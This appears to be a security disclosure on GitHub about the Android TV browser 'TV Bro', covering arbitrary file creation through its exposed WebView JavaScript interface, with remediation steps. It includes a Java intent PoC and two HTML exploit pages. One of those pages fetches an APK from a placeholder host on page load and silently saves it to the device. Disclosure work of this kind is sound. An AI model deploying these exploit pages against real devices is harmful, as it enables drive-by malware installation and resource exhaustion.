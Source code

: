 
---
![BOX](https://github.com/actuator/com.phlox.tvwebbrowser/blob/main/box.png)

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: Arbitrary File Creation & Remote JavaScript Code Execution in WebView

**Severity**: 🔴 Critical

### Details:

The `com.phlox.tvwebbrowser` application mishandles external intents through WebView, allowing for both Arbitrary Code Execution (ACE) and, more critically, arbitrary file creation and downloads using specially crafted URIs.

The arbitrary file creation and download risk arises from the ability to generate Base64 encoded strings representing any file content. An attacker can craft these strings and instruct the WebView to decode and save them as files on the user's device without their consent.

**Proof of Concept**:

![Proof of Concept](https://github.com/actuator/com.phlox.tvwebbrowser/blob/main/TVBro.gif)

```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("http://ampulicidae.com")); // any URL
startActivity(intent);
```

### References:
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-73: External Control of File Name or Path](https://cwe.mitre.org/data/definitions/73.html)

### Remediation Steps:
1. Restrict External Intent Handling: In `AndroidManifest.xml`, set the `exported` attribute for the affected activity to `false`.
2. URI Sanitization: Implement strict validation and sanitation for URIs.
3. Validate Base64 Data: Before allowing any Base64 decoding in WebView, validate the content to ensure it does not contain malicious data.

### Addendum:

The `com.phlox.tvwebbrowser` application exposes a JavaScript interface, TVBro, to its WebView component. This poses several security risks:

- **Resource Exhaustion**: Creating extremely large files using `takeBlobDownloadData` method.
- **Arbitrary File Creation/Downloads**: The most critical vulnerability. Files with any content can be created and downloaded without user consent, just by encoding malicious data in Base64.

**Proof of Concepts**:

```html
<!-- Simple HTML code to demonstrate vulnerability -->
<!DOCTYPE html>
<html lang="en">
<head>
    <title>TV Bro Exploit Demo</title>
</head>
<body>
    <button onclick="triggerExploit()">Trigger Exploit</button>
    <div id="status"></div>
    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }
        function triggerExploit() {
            const base64Data = generateRandomBase64String(500000);
            const fileName = 'exploit.txt';
            const url = 'http://ampulicidae.com'; 
            const mimeType = 'text/plain';
            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "Invoking...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
            } else {
                document.getElementById('status').innerText = "Interface not found.";
            }
        }
    </script>
</body>
</html>
```

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exploit PoC</title>
</head>

<body>

<script>
    // Upon page load, check if the TVBro interface is available and trigger download.
    window.onload = function() {
        const apkURL = 'https://yourdomain.com/path/to/yourfile.apk';
        const mimeType = 'application/vnd.android.package-archive';

        if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
            // Fetch the APK file as a blob
            fetch(apkURL).then(response => response.blob()).then(blob => {
                const reader = new FileReader();
                reader.readAsDataURL(blob);
                reader.onloadend = function() {
                    const base64data = reader.result.split(',')[1];
                    window.TVBro.takeBlobDownloadData(base64data, 'yourfile.apk', apkURL, mimeType);
                }
            });
        }
    }
</script>

</body>

</html>

```
---

